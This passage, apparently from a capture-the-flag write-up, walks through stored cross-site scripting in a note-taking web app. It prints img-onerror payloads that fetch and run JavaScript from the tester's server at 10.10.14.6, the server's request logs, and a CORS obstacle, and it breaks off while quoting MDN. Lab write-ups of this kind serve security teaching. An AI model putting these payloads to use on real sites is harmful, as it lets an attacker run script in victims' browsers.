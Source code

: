 

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js');" />



On logging in, submitting a note and viewing it, there's a request at my
server:



    10.10.14.6 - - [19/Jul/2023 18:20:40] code 404, message File not found
    10.10.14.6 - - [19/Jul/2023 18:20:40] "GET /xss.js HTTP/1.1" 404 -



I'll create this file with some simple JavaScript in it:



    oxdf@hacky$ echo "alert(1);" > xss.js 



On refreshing, it gets the file just file:



    10.10.14.6 - - [19/Jul/2023 18:22:58] "GET /xss.js HTTP/1.1" 200 -



The next step is to try to use this file to do something. I'll create
this payload that will try to write the contents to the console:



    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {console.log(t)});" />



On logging out, registering, logging back in, and creating a note,
there's a hit at my server:



    10.10.14.6 - - [19/Jul/2023 18:25:06] "GET /xss.js HTTP/1.1" 200 -



Unfortunately, the contents aren't printed to the console, but there's
an error message:

![](/img/image-20230719182632064.png)

Despite the fact that it did fetch the file from my webserver, it then
failed and blocked access to the results because of CORS. [This
page](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS/Errors/CORSMissingAllowOrigin)
talks about the error and what's happening. It's actually an issue that
can be fixed at my server.

> If the server is under your control, add the origin of the requesting
> site to the set of domains permitted access by adding it to the
> `Access-Control-Allow-Origin` header's value.
>
> For example, to allow a site at `https://example.com` to access the
> resource using CORS, the header should be:
>
> <div>
>
> <div>
>
>     Access-Control-Allow-Origin: https://example.com
>